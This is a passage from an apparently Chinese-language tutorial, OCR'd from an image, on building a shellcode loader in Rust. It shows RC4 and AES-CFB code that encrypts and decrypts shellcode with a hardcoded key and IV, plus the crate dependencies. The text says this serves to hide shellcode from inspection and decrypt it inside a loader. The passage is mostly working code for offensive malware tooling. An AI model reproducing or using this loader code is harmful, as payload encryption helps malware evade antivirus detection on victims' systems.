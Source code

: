 ```bash

    base64::encode(&mut result)
}

fn dec(b64: &str, key: &str) -> Vec<u8> {
    let mut result = match base64::decode(b64) {
        Ok(result) => result,
        _ => "".as_bytes().to_vec(),
    };

    let mut rc4 = Rc4::new(key.as_bytes());

    let mut shellcode: Vec<u8> = repeat(0).take(result.len()).collect();
    rc4.process(&mut result[..], &mut shellcode);

    shellcode
}
```

### AES-CFB 加密

Rust 要实现 AES 加密与加密也需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

```bash
[dependencies]
aes="0.7.5"
hex="0.4.3"
block-modes="0.8.1"
hex-literal="0.3.3"
```

下面是实现 AES-CFB 加解密的代码，在加密的函数中最终返回的是 Hex 编码后的字符串，而解密函数最终返回的是 Vec 数组，同样是为了方便在 shellcode loader 中读取加密后的 shellcode 以及加载解密后的 shellcode。

```bash
use aes::Aes128;
use block_modes::block_padding::Pkcs7;
use block_modes::{BlockMode, Cfb};
use hex::encode;
use hex_literal::hex;

type Aes128ECfb = Cfb<Aes128, Pkcs7>;

fn main() {
    let shellcode = include_bytes!("..\\calc.bin").as_slice();
    let key = "gWW8QklFyVIQfpDN";
    let iv = hex!("57504c385a78736f336b4946426a626f");

    println!("==128-bit AES CFB Mode==");
    println!("Key: {}", key);
    println!("iv: {}", encode(iv));

    let encrypted = enc(shellcode, key, iv);
    println!("\nEncrypted: {}", encrypted);

    let decrypted = dec(encrypted.as_str(), key, iv);
    println!("\nDecrypted: {:?}", decrypted);
}

fn enc(shellcode: &[u8], key: &str, iv: [u8; 16]) -> String {
    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let pos = shellcode.len();
```